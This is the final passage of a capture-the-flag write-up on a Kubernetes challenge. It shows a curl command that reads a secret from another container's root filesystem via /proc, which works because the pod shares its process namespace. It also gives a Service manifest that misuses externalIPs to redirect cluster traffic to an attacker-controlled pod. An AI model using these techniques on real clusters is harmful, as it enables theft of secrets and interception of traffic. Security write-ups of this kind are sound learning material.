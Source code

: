 which yields a valid response.

Now, there's one more bridge to cross. Getting access to the flag, as it's a Kubernetes secret only mounted to another container in the same
pod. Luckily, the pod has the `shareProcessNamespace` property set to `true`, which means that all containers within the pod share the same
proc namespace. This means that we can see the other processes in `/proc`. Every process in the procfs has a link to its root filesystem in
`/proc/<PID>/root`. We can guess or brute-force the PID of the pod containing the flag, as there aren't that many processes, and then read the
flag from its root filesystem:

```sh
curl http://localhost:8080/root/proc/12/root/flag/flag
```

Which indeed gives us the flag:

> `CSCG{supercluster,just_not_super_secure}`

I really enjoyed the challenge, as it showed that even with only the `CAP_NET_RAW` capability, it might be possible to escalate privileges
throughout a Kubernetes cluster, leading to serious compromise.

## Bonus: Intended Solve

The well-disposed reader might have noticed that we didn't use the `ctf` namespace at all. That's due to this solve not being intended for
the challenge. After talking to the author, I learned that an exploit using external IP services [^7] was the intended solution.

This service property allows to override traffic routing to outward-facing endpoints and redirect it to IPs internal to the cluster. This
can be helpful in scenarious where you have something like a write-through cache for OCI images within your cluster, but can be misused here
to redirect the periodic requests made by `wget` to an attacker-controlled service within the cluster.

An exploit using it would have deployed a service like this, redirecting the traffic to the IPs for `static.cscg.live`, resolved via legitimate
DNS responses, to a service within the `ctf` namespace, allowing for the same subsequent exploit steps mentioned above though:

```yaml
# service to redirect traffic for static.cscg.live to our deployment
apiVersion: v1
kind: Service
metadata:
  name: exploit-service
  namespace: ctf
spec:
  selector:
    app: exploit-host
  ports:
    - name: http
      protocol: TCP
      port: 443
      targetPort: 443
  externalIPs:
    # IPs of static.cscg.live
    - 147.28.207.143
    - 147.28.207.163
    - 147.75.204.231
```


[^1]: https://kubernetes.io/docs/concepts/security/pod-security-standards/
[^2]: And a DNS name, actually.
[^3]: https://kubernetes.io/docs/concepts/services-networking/dns-pod-service/
[^4]: https://en.wikipedia.org/wiki/Address_Resolution_Protocol
[^5]: https://www.aquasec.com/blog/dns-spoofing-kubernetes-clusters/
[^6]: https://github.com/danielsagi/kube-dnsspoof
[^7]: https://kubernetes.io/docs/concepts/services-networking/service/#external-ips
[^8]: https://www.tigera.io/blog/prevent-dns-and-other-spoofing-with-calico/